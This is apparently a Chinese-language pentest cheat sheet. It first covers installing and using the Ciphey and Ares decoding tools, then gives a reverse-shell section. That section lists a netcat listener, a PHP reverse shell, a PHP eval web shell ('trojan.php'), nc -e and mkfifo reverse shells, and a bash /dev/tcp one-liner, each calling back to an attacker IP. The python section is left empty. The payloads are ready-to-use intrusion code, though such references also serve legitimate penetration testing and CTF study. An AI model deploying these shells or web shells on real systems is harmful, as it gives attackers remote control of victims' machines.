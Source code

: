 ## ciphey

get src here：[Ciphey/Ciphey](https://github.com/Ciphey/Ciphey.git)，；一款命令行解密脚本，不用知道一串东西是什么，只是知道它可能已加密，输入加密的文本，取回解密的文本。适用于对于密码学不太了解的人，或者想在自己进行密文处理之前快速检查密文的人，或者脚本小子；

### installation

主要有三种方式：

-   如果是 python v3.4 - v3.8，`python3 -m pip install ciphey --upgrade`
-   如果是 python 3.10+，可以选择使用新版 [bee-san/Ares](https://github.com/bee-san/Ares.git)：`cargo install project_ares --locked`（`--locked` 指定；安装失败自行寻找 cargo 国内源并配置，也可以配置 proxy），也可以加入 [discord](http://discord.skerritt.blog/) 直接使用 bot
-   全平台使用 docker（推荐）：获取镜像 `sudo docker run -it --rm remnux/ciphey`，使用例 `sudo docker run -it --rm remnux/ciphey $args`，下直接以 `ciphey` 为例

### usage

example：`aHR0cHM6Ly93d3cudGF0YXJhbW9yaWtvLmNvbS9pbmRleC5waHAvcGVuZXRyYXRpb24vMzI0Lmh0bWw=`

1.   命令行类型：`ciphey -t aHR0cHM6Ly93d3cudGF0YXJhbW9yaWtvLmNvbS9pbmRleC5waHAvcGVuZXRyYXRpb24vMzI0Lmh0bWw=`
2.   文件类型：`echo "aHR0cHM6Ly93d3cudGF0YXJhbW9yaWtvLmNvbS9pbmRleC5waHAvcGVuZXRyYXRpb24vMzI0Lmh0bWw=" > /tmp/encrypted.txt`，`ciphey -f /tmp/encrypted.txt`

## shell

src ip：`192.168.0.1`，target ip：`192.168.0.2`，先监听：`rlwrap nc -nvlp 1234`

### php

访问弹 shell，`shell.php`：

```php
<?php $sock=fsockopen("192.168.1.1", 1234);exec("/bin/bash -i <&3 >&3 2>&3");?>
```

上马：`http://192.168.0.2/trojan.php?cmd=[cmd]`，`trojan.php`：

```php
<?php @eval($_GET['cmd']); ?>
```

### nc

一些支持 -e 选项的 nc 版本可以用这个方式弹：`nc -e /bin/sh 192.168.0.1 1234`

如果不支持 -e，则采用这个方式：`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.0.1 1234 > /tmp/f`

### bash

原教旨：`bash -i >& /dev/tcp/192.168.0.1/1234 0>&1`

### python
